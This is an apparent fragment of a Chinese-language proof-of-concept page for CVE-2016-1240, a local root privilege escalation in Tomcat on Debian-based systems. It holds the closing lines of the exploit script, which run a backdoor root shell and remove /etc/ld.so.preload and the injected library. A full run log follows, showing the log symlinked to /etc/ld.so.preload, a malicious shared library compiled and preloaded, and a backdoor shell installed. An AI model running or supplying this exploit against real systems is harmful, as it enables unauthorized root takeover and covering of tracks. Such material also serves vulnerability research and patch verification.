 ```
# Execute the rootshell
echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
$BACKDOORPATH -p

# Job done.
cleanexit 0 
```

#### poc 运行示例：

```
tomcat7@ubuntu:/tmp$ id
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

tomcat7@ubuntu:/tmp$ lsb_release -a
No LSB modules are available.
Distributor ID:    Ubuntu
Description:    Ubuntu 16.04 LTS
Release:    16.04
Codename:    xenial

tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat
ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- core libraries
ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine
ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- common files

tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out 

Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
CVE-2016-1240

Discovered and coded by: 

Dawid Golunski 

http://legalhackers.com

[+] Starting the exploit in [active] mode with the following privileges: 
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

[+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

[+] Symlink created at: 
lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

[+] Waiting for Tomcat to re-open the logs/Tomcat service restart...
You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)

[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: 
-rw-r--r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
/tmp/privesclib.so
```